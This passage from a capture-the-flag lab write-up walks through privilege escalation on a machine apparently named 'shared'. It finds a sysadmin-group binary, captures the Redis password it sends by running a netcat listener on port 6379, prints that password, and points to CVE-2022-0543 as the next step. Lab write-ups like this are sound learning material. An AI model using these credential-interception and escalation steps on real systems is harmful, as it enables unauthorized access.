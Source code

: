 ## Privilege escalation
Our new user is a member of the developer group of course, but they are also member of the sysadmin group:
```console
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
```
Looking for any files owned by this group we find the following:
```console
dan_smith@shared:~$ find / -group 1003 2>/dev/null
/usr/local/bin/redis_connector_dev
```
When running the binary, the following is printed to the terminal:
```console
dan_smith@shared:/usr/local/bin$ ./redis_connector_dev 
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:5636
run_id:b8e4e1aa48304078a83690b0605822db59ba1ffe
tcp_port:6379
uptime_in_seconds:28
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:16327646
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
dan_smith@shared:/usr/local/bin$ 
```
It seems that it logs on to the local redis server. If we transfer the binary to our own system then set up a netcat listener on the standard redis port, `6379`, we can figure out what password is used to authenticate to the server.

```console
┌──(bitis㉿workstation)-[~]
└─$ nc -lvnp 6379                                                                                                                                                                                                                       1 ⨯
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 43228
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```
With this password we can connect to the redis server on the target system. We also know that the redis version is 6.0.15 from the previous command. I found [this](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md) vulnerability which seems promising. 
